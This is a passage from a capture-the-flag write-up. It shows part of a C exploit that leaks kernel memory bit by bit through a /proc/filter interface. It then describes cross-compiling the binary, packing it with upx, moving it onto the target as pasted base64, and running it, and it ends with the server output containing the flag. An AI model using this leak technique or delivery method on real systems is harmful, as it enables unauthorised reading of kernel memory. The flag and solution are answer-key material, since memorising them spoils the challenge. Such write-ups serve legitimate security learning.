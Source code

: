 ```c
    uint8_t low = reverse8(x & 0xFF);
    return (high << 8) | low;
}


int main() {
    fd = open("/proc/filter", O_RDONLY);
    if (fd < 0) {
        perror("Failed to open /proc/filter");
        return 1;
    }
    setbuf(stdout, NULL);
    int i = 1;
    int a = 0;
    char tmp = 0;
    uint16_t chunk = 0;
    while (1) { // run until error
        printf("\b\b\b\b\b\b\b\b\b\b\b\b\b\b");
        while ( i < 65536) { // leak 2 bytes
            usleep(10000); // dramatic effect
		    chunk <<= 1;
            tmp = leak_bit(a, i)^1;
        	chunk |= tmp;
            printf("%d", tmp);
	        i *= 2;
        }
	    chunk = flip_8bits_each_side(chunk);
        printf("\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b%c%c              ", chunk >> 8, chunk & 0xff);
        i = 1; // reset bit leaker
        a += 2; // add on 2 bytes
    }
}
```
To compile this, run: `aarch64-linux-gnu-gcc better_packet_filter_solve.c -Os -static`, it is crucial that you statically link the code because our target is Alpine, which uses musl instead of libc, so a dynamically linked binary would not execute. The resulting file is big though, (harder to send to our target) at `881k`. To shrink it we can use `upx`, shrinking it to `378k`. To send it to the server I used `base64 a.out | wl-copy` to copy the base64 encoded version of the file onto my clipboard. On the server, I executed `stty -echo` which prevents alpine from being as noisy during the next step. I then ran `echo '<paste>' > o`, which put the base64 of our binary into `o`. I then ran `cat o | base64 -d > l` (decoding it) and finally `chmod +x l; ./l` (executing it). The server then responded with:
```
~ $ ./l
SVUSCG{b3t73r_1n7erpr37er_7h@n_83rke1ey}0101000000000000
ioctl(RUN_FILTER) failed: Invalid argument
```
